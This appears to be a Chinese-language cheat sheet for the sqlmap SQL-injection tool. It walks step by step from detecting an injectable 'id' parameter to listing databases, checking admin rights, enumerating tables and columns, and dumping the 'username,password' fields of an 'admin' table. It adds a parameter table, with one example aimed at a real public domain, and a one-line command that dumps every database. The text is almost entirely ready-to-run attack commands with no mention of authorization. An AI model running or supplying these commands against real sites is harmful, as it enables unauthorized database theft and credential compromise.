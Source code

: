 #### Sqlmap常用命令

1.  **sqlmap.py -u "http://www.XXX.com/index.asp?id=1"**   

    判断id参数是否存在注入：结果中包含 “id” is Vulnerable  字段表示存在注入

    存在注入，下面的步骤才可以执行成功~

2.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1"  --dbs

    列举能列出的所有数据库名

3.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" --current-db

    列出当前使用的数据库名，假设列出“sqltest”数据库

4.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1"  --is-dba

    判断该注入点是否有管理员权限：返回true  表示是管理员

5.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" --tables

    获取sqltest中的所有表，假设有"admin"表

6.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" -T "admin" --columns

    列举表admin的字段（列名），假设存在"username","password"字段

7.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" -T "admin" -C "username,password" --dump

    下载字段username，password的值，若询问是否破解md5加密，选择no即可

--help，可以查看所有参数，格式：python2 sqlmap.py -u http://www.xxx.com/index.asp?id=1 --[参数] --[参数]

常用参数如下：

| 参数                                     | 含义                                                         | 示例                                                         |
| ---------------------------------------- | ------------------------------------------------------------ | :----------------------------------------------------------- |
| --batch                                  | 跳过手工确认，直接跑码                                       | python sqlmap.py -u url --batch                              |
| -v                                       | 输出等级，0-6共7级，默认1级                                  | -v 3                                                         |
| --level                                  | 默认等级是1，cookie测试为2，use-agent或refer测试为3，host测试为5 | **sqlmap**.py -u "www.baidu.com/user.php?id=7" --level 3     |
| -u                                       | 指定目标，指定一个URL作为目标，还可以指定端口                | **sqlmap**.py -u "www.baidu.com/user.php?id=7"<br>**sqlmap**.py -url "www.baidu.com:8080/user.php?id=7" |
| --dbs                                    | 列出所有数据库名                                             | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" --dbs     |
| --current-db                             | 列出当前应用程序使用的的数据库                               | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" --current-db |
| --is-dba                                 | 判断注入点是否有管理员权限                                   | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" --is-dba  |
| -D 数据库名 --tables                     | 列出数据库的表名                                             | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "security" --tables |
| -D 数据库名 -T 表名 --columns            | 列出字段名                                                   | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "test" -T "test" --columns |
| -D 数据库名 -T 表名 -C "id,name"　--dump | 列出字段值                                                   | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "test" -T "test" -C "id,name"　--dump |

**一句话脱库：sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "数据库名" --dump-all**

